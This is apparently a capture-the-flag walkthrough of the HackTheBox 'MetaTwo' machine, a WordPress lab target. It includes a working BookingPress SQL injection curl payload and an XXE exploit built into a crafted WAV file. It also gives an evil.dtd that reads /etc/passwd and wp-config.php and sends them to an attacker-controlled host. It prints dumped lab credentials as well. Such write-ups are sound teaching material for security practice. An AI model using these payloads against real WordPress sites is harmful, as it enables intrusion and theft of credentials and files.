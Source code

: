 ```yaml
---
title: MetaTwo
date: 2022-12-30 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [linux, Wordpress, xmlrpc, boookingpress, wordpress, CVE-2021-29447]
---
```


Starting off with nmap - `nmap -Pn -p- metatwo.htb -vvvv -oN nmap_initial` 

We find a port 80 webserver trying to redirecto to metapress.htb lets add that to /etc/hosts and check it.

find a login page @ http://metapress.htb/wp-login.php.

we can start off by checking the site with `wpscan`

- `wpscan -e ap --api-token api --url http://metapress.htb -o ~/Documents/htb/MetaTwo/wpscan.2 --plugins-detection mixed`

# Wordpress bookingpress 1.0.11 Unauthenticated SQL Injection

we find a vulnerability in the `/events/` which is the bookingpress plugin. 

- https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357

Extract the nonce from the source code of the events page and craft a curl command

- `curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \ --data 'action=bookingpress_front_get_category_services&_wpnonce=3392862f44&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'`

This works and we can also use <a href="https://github.com/hadrian3689/wp_bookingpress_1.0.11/blob/main/sqli.py">this exploit</a> to dump the user credentials.

```
CVE-2022-0739 WordPress BookingPress Plugin< 1.0.11 Unauthenticated SQL Injection

Credentials are:
--------------------------------------------------
Username: admin
Email: admin@metapress.htb
Password: $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
--------------------------------------------------
Username: manager
Email: manager@metapress.htb
Password: $P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70
--------------------------------------------------
```

Running rockyou for an eternity againse the admin didnt give us anything, and running aginst manager gets us `partylikearockstar` 

# WordPress version 5.6.2 Exploitation

<a href="https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/">Here</a> is a great article explaining the process we will use in the XXE vuln. Basically now that we have credentials we can create a wave file with malicious XML and upload the wave and wordpress will read the metadata and send us back what we want it to read no the system.

We start by generating a WAVE file in bash that contains a payload calling back to the evil.dtd we will setup on attacker

- `echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.123:6969/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav`

then we create evil.dtd

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.123:6969/?p=%file;'>" >
```

And start a webserver in the dir. once we upload we should get a callback with the base64 encoded file which we can decode. So this does work, but /etc/passwd and we find a user jnelson. Unfortunately unable to get the user ssh file. So going to look for the wp-config.php file for more information. `/etc/nginx/sites-enabled/default` tells us the blog is in `/var/www/metapress.htb/blog` so lets edit the dtd file to display wp-config.php.

We do find some ftp credentials in here lets check that out

```
define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
```

And lets upload a reverse shell. Oh no permissions so looking around we find a php-mailer and checknig inside are jnelson's ssh credentials. 

```
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```

# Linux Privesc

Pretty simple, the use has a file with root ssh passwords. cat ssh then su to root
